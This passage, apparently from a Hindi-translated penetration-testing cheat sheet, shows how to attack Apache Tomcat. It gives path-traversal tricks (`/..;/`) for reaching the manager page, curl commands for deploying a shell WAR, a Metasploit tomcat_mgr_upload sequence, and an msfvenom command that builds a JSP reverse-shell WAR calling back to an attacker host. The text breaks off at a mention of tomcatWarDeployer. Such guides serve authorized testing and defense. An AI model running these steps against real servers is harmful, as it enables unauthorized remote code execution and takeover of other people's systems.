 कुछ [**टॉमकैट के संवेदनशील कॉन्फ़िगरेशन**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) में आप पथ का उपयोग करके टॉमकैट में संरक्षित निर्देशिकाओं तक पहुँच प्राप्त कर सकते हैं: `/..;/`

तो, उदाहरण के लिए, आप **टॉमकैट प्रबंधक** पृष्ठ तक पहुँचने में सक्षम हो सकते हैं: `www.vulnerable.com/lalala/..;/manager/html`

**एक और तरीका** इस चाल का उपयोग करके संरक्षित पथों को बायपास करने का है: `http://www.vulnerable.com/;param=value/manager/html`

## RCE

अंत में, यदि आपके पास टॉमकैट वेब एप्लिकेशन प्रबंधक तक पहुँच है, तो आप **एक .war फ़ाइल अपलोड और तैनात कर सकते हैं (कोड निष्पादित करें)**।

### सीमाएँ

आप केवल तभी WAR तैनात कर पाएंगे जब आपके पास **पर्याप्त विशेषाधिकार** (भूमिकाएँ: **admin**, **manager** और **manager-script**) हों। ये विवरण आमतौर पर _tomcat-users.xml_ के तहत पाए जा सकते हैं जो `/usr/share/tomcat9/etc/tomcat-users.xml` में परिभाषित होता है (यह संस्करणों के बीच भिन्न होता है) (देखें [POST ](./#post)section)।
```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```
### मेटास्प्लॉइट
```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```
### MSFVenom Reverse Shell

1. तैनात करने के लिए वार बनाएँ:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LPORT> -f war -o revshell.war
```
2. `revshell.war` फ़ाइल अपलोड करें और इसे एक्सेस करें (`/revshell/`):

### [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer) के साथ बाइंड और रिवर्स शेल

कुछ परिदृश्यों में यह काम नहीं करता (उदाहरण के लिए पुराने संस्करणों में) 

